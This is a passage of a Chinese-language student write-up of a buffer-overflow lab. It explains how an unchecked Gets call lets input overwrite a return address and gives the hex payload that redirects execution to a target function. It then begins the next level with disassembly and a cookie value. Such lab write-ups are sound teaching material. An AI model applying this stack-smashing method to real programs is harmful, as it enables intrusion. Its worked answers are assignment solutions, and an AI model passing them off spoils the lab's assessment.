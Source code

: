  从文档中得知：

 ![](2019-05-06-17-08-57.png)

 Gets函数不验证是否超出了 `NORMAL_BUFFER_SIZE`，所以超出字符的就会覆盖掉内存。
 
 那么只要在buf开始处随便填入44字节（0a除外，会终止输入），然后在后面加入smoke的地址，覆盖掉栈中的返回地址即可。

另外需要注意的是 x86 机器为小端法机器，最低有效字节在内存的前面，所以在 exploit.txt 中填入如下答案即可：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08 0a
```
<img src='2019-05-06-17-41-54.png' width = 400px />

## Level 1: Sparkler

**目标：调用 fizz(val) 函数，并将自己的 cookies 传递为参数。**

研究 fizz 的汇编代码：
```s
08048c42 <fizz>:
 8048c42:	55                   	push   %ebp
 8048c43:	89 e5                	mov    %esp,%ebp
 8048c45:	83 ec 18             	sub    $0x18,%esp
    # ebp + 8 就是参数 val
 8048c48:	8b 45 08             	mov    0x8(%ebp),%eax
 8048c4b:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
 8048c51:	75 26                	jne    8048c79 <fizz+0x37>
 8048c53:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c57:	c7 44 24 04 ee a4 04 	movl   $0x804a4ee,0x4(%esp)
 8048c5e:	08 
 8048c5f:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c66:	e8 55 fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c6b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c72:	e8 04 07 00 00       	call   804937b <validate>
 8048c77:	eb 18                	jmp    8048c91 <fizz+0x4f>
 8048c79:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048c7d:	c7 44 24 04 40 a3 04 	movl   $0x804a340,0x4(%esp)
 8048c84:	08 
 8048c85:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 8048c8c:	e8 2f fd ff ff       	call   80489c0 <__printf_chk@plt>
 8048c91:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048c98:	e8 63 fc ff ff       	call   8048900 <exit@plt>
 ```
和第一个阶段相比，除了破坏栈帧调用函数以外，还需要构造一个参数。我这里使用的 cookies 为 0x362d5a70。
